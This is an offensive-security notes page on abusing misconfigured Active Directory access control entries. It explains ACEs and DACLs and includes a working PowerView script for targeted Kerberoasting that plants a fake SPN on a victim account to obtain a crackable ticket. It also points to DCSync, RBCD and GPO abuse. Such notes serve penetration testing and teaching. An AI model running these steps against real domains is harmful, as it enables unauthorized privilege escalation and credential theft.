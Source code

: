 # Access Control Entries \(ACEs\)

## Theory

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry \(ACE\). Access Control Entries describe the allowed and denied permissions for a principal in Active Directory against a securable object \(user, group, computer, container, organization unit \(OU\), GPO and so on\)

DACLs \(Active Directory Discretionary Access Control Lists\) are lists made of ACEs \(Access Control Entries\).

When misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain.

## Practice

{% hint style="info" %}
The attacker needs to be in control of the object the ACE is set on to abuse it and possibly gain control over what this ACE applies to.

The following abuses can only be carried out when running commands as the user the ACE is set on. On Windows systems, this can be achieved with the following command.

```bash
runas /netonly /user:$DOMAIN\$USER
```

All abuses below can be carried out on a Windows system \(the system doesn't even have to be enrolled in the domain\). 

On UNIX-like systems, a few of the following abuses can be carried out. The [aclpwn](https://github.com/fox-it/aclpwn.py) could maybe do the job in most cases. Personally, I always encountered errors and unsupported operations when trying to use it but I will probably do some further tests to include it here.
{% endhint %}

{% hint style="success" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. This can be useful when trying to this from a Windows system that isn't enrolled in the AD domain.

Here is an example with targeted Kerberoasting \(see [`GenericAll`](./#genericall), [`GenericWrite`](./#genericwrite)\).

```bash
$SecPassword = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $SecPassword)
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endhint %}

### Exploitation paths

In order to navigate the notes, you can use the following mindmap

![](../../../.gitbook/assets/abusing-aces.png)

All of the aforementioned attacks \(red blocks\) are detailed in the child notes, except:

* **Kerberos RBCD**: see [ADDS &gt; Movement &gt; Kerberos &gt; Kerberos Delegations &gt; RBCD](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd)
* **GPO abuses**: see [ADDS &gt; Movement &gt; GPOs](../abusing-gpos.md)
* **DCSync** : see [ADDS &gt; Movement &gt; Credential &gt; Dumping &gt; DCSync](../credentials/dumping/dcsync.md)

## Resources

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces\#genericall-on-user" caption="" %}

{% embed url="https://wald0.com/?p=112" caption="" %}

{% embed url="http://www.selfadsi.org/deep-inside/ad-security-descriptors.htm" %}

{% embed url="https://adsecurity.org/?p=3658" %}





